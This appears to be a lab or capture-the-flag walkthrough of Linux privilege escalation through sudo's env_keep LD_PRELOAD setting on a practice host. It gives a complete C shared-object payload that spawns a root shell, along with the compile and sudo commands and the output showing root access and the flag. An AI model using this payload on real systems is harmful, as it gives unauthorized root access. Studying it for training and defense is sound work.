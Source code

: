 ## privesc abusing Sudo (LD_PRELOAD)

    noobuser@attackdefense:~$ id
    uid=999(noobuser) gid=999(noobuser) groups=999(noobuser)
    
    noobuser@attackdefense:~$ sudo -l
    Matching Defaults entries for noobuser on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 
        env_keep+=LD_PRELOAD
    User noobuser may run the following commands on attackdefense:
        (root) NOPASSWD: /usr/sbin/apache2

then write C program in the writtable directory such as /var/tmp , /dev/shm and /tmp directory and save it to LD_PRELOAD_privesc.c

> #include <stdio.h>

> #include <sys/types.h>

> #include <stdlib.h> 

> void _init() { 

> unsetenv("LD_PRELOAD"); 

> setgid(0); 

> setuid(0); 

> system("/bin/bash"); 

> }

then compile the file and generate the object file

    noobuser@attackdefense:~$ /usr/bin/gcc -fPIC -shared -o LD_PRELOAD_privesc.so LD_PRELOAD_privesc.c -nostartfiles
    noobuser@attackdefense:~$ sudo LD_PRELOAD=/tmp/LD_PRELOAD_privesc.so /usr/sbin/apache2
    root@attackdefense:/tmp# id
    uid=0(root) gid=0(root) groups=0(root)
    
    root@attackdefense:/tmp# find /root/ type f -name flag
    /root/flag
    find: 'type': No such file or directory
    find: 'f': No such file or directory
    
    root@attackdefense:/tmp# cat /root/flag
    368b21993<snip>1ac697cc83
    
    root@attackdefense:/tmp# yeayy


